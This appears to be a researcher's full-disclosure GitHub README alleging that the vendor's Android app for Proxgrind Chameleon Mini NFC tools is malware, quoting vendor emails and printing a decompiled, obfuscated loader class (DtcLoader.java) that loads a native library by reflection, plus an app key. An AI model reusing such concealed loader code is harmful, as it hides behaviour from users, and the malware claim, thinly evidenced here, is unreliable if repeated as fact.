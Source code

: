 # ChameleonProxgrindAndroid-FullDisclosure

## Prior disclosure to the vendor

In accordance with the guidelines for reporting to BugTraq [here](https://www.securityfocus.com/archive/1/description#0.1.8), I will first point out that a clear detailed report of the problem in this vulnerability has been made to the [vendor's contact point](mailto:dennis@rfidresearchgroup.com). Their response after I gave them a clear window to respond was to make the following comments to me quickly:
>Re: Concerns with the Proxgrind Android app (com.proxgrind.chameleon)
>
>So what am I suppose to do or what can I do to help with your problem ?
>
>I think it is better you state your concerns and bulletin it so I can go to my CTO with a more details on your concerns and how we can achieve more together ?
With a lacking response now days after my initial point of contact email, I feel that it is pertinent to warn users of the malware they have unwittingly purchased and installed on their Android phones to control it. 

## The proxgrind series of Chameleon Mini devices

The [Chameleon Mini (RevG)](https://github.com/emsec/ChameleonMini) devices originally manufactured by Kasper and Oswald are an affordable entry point for many users into the NFC pentesting game. More recently, thanks to an [effort on KickStarter](https://www.indiegogo.com/projects/chameleonmini-rev-g-chameleontiny-by-proxgrind#/) a family of physically sturdier, cheaper and (mostly) Bluetooth enhanced port of these devices has been introduced into the NFC tools market under the Proxgrind Chameleon Mini label. These devices have from the get-go touted an [insane list of features](https://github.com/maxieds/ChameleonProxgrindAndroid-FullDisclosure/blob/master/docs/D-Appendix-ChameleonMiniAndChameleonTinyByProxGrind-Archived-2020.08.23-v1.pdf) and supported NFC tags for emulation, including premature claims about bidirectional sniffing and Mifare DESFire tag support.
The officially sanctioned [proxgrind firmware fork](https://github.com/RfidResearchGroup/ChameleonMini) has been known to be rife with [Bluetooth stack related issues](https://github.com/RfidResearchGroup/ChameleonMini/issues/12) from the onset of the first generation of their RevG replacement hardware. There is now another variant known as the [Proxgrind Tiny Professional](http://chameleontiny.com/product/chameleontiny-professional-with-bluetooth/) device that comes with Bluetooth enabled. In fact, per my recent testing, the unconnected battery-less tiny professional device can be observed as broadcasting a Bluetooth pairing request from more than 50 feet from the target host device. These Bluetooth-enabled devices have a default, manufacturer endorsed Android controller application listed on the 
[Google Play Store (com.proxgrind.chameleon)](https://play.google.com/store/apps/details?id=com.proxgrind.chameleon) [(store listing screenshot)](https://github.com/maxieds/ChameleonProxgrindAndroid-FullDisclosure/blob/master/images/Screenshot_20200823-062601.png). 

## The vulnerability (clear instance of malware), and how it was noticed

[my best attempts at BT (BLE) functionality](https://github.com/maxieds/ChameleonMiniLiveDebugger/blob/master/app/src/main/java/com/maxieds/chameleonminilivedebugger/BluetoothSerialInterface.java)

<img src="https://github.com/maxieds/ChameleonProxgrindAndroid-FullDisclosure/blob/master/images/Screenshot_20200823-081808.png" width="225" /><img src="https://github.com/maxieds/ChameleonProxgrindAndroid-FullDisclosure/blob/master/images/Screenshot_20200823-081814.png" width="225" /><img src="https://github.com/maxieds/ChameleonProxgrindAndroid-FullDisclosure/blob/master/images/Screenshot_20200823-081818.png" width="225" />

**(DtcLoader.java)**
```java
package com.qihoo.util;

import android.content.Context;

public class DtcLoader {
    static {
        try {
            System.loadLibrary("jgdtc");
        } catch (Throwable th) {
            System.load(m0());
        }
    }

    /* renamed from: ᵢˋ */
    private static String m0() {
        try {
            Class cls = Class.forName(C0002.m1("q~tbyt>q``>QsdyfydiDxbuqt"));
            return ((Context) cls.getDeclaredMethod(C0002.m1("wudCicdu}S~duhd"), null).invoke(cls.getDeclaredMethod(C0002.m1("sebbu~dQsdyfydiDxbuqt"), null).invoke(null, new Object[0]), new Object[0])).getPackageManager().getApplicationInfo("PACKAGENAME", 0).nativeLibraryDir + "/libjgdtc.so";
        } catch (Throwable th) {
            return "/data/data/PACKAGENAME/lib/libjgdtc.so";
        }
    }

    public static void init() {
    }
}
```
**(.appkey)**
```bash
126f4673b551a692
```

My opinion: proliferation by broken BLE stack and intentional supression of documentation for their devices... 

